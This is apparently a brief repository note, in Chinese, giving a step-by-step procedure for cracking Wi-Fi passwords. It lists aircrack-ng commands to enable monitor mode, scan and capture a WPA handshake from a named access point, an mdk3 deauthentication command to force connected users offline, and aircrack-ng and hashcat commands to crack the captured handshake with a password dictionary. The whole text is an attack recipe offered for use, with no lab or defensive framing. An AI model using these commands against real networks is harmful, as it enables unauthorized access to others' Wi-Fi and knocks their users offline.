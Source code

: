 # wifipassword
airmon-ng start wlp3s0 开启监听
airodump-ng wlp3s0mon扫描网络

airodump-ng -c 1 -w adc --bssid F8:8C:21:44:29:65 wlp3s0mon 抓包
airodump-ng -c <通道> -w <文件名> --bssid <mac地址> <网卡名>

与此同时新打开一个终端
mdk3 wlp3s0mon d -c 1 使用mdk3强制用户下线，开一会就关掉，否则别人连不上你也无法抓包

aircrack-ng -w 密码字典 <包含握手包的 cap 文件>  破解密码

aircrack-ng <out.cap> -J <out.hccap>转换文件

hashcat -m 2500 out.hccap.hccap  dics.txt破解密码
